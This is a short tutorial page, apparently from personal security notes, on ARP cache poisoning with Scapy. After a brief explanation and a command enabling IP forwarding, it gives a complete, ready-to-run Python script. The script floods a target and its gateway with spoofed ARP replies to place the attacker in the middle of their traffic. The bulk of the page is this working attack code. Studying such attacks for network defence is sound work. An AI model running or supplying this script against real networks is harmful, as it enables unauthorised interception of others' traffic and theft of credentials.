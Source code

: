 ```yaml
---
title: "Arp cache poisoning"
date: 2019-01-06
# geekdocFlatSection: false
# geekdocToc: 6
# geekdocHidden: false
---
```


With Scapy you can easily send crafted ARP reply packets. The idea is to constantly send the victim ARP replies telling it we are the router..
We do the same for the router, we tell it we are the victim machine. After we become the man in the middle we can intercept & inspect all data.

To allow forwarding of packets between the victim and the gateway we need to enable ip_forward:

```Shell
echo '1' > /proc/sys/net/ipv4/ip_forward
```

The function get_mac sends arp request message ("Who has") to the broadcast address, so all clients on the LAN receive it,  
we will get the correct mac address back from the target_ip.  

Now that we have the correct mac address from the target we can start sending spoofed reply packets with spoof function ('target_ip' <b>is at</b> 'attacker mac address')   

![arp reply 1](1at.png)

and

![arp reply 2](18at.png)

The full code:  

```python
#!/usr/bin/env python
import scapy.all as scapy
import time
import argparse

def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target", dest="target",
                        help="Target IP")
    parser.add_argument("-g", "--gateway", dest="gateway",
                        help="Gateway IP")
    options = parser.parse_args()
    return options

# Get target mac address using ip address
def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast/arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout=1,
                              verbose=False)[0]
    return answered_list[0][1].hwsrc

# Change mac address in arp table
def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac,
                       psrc=spoof_ip)
    scapy.send(packet, verbose=False)

# Restore mac address in arp table
def restore(dest_ip, source_ip):
    dest_mac = get_mac(dest_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(op=2, pdst=dest_ip, hwdst=dest_mac,
                       psrc=source_ip, hwsrc=source_mac)
    scapy.send(packet, count=4, verbose=False)

options = get_arguments()
sent_packets_count = 0
try:
    while True:
        spoof(options.target, options.gateway)
        spoof(options.gateway, options.target)
        sent_packets_count = sent_packets_count + 2
        print("\r[+] ARP spoofing started - packets sent: " + str(sent_packets_count))
        time.sleep(2)
except KeyboardInterrupt:
    print("\nCTRL+C pressed .... Reseting ARP tables. Please wait")
    restore(options.target, options.gateway)
    restore(options.gateway, options.target)
    print("\nARP table restored. Quiting")

```
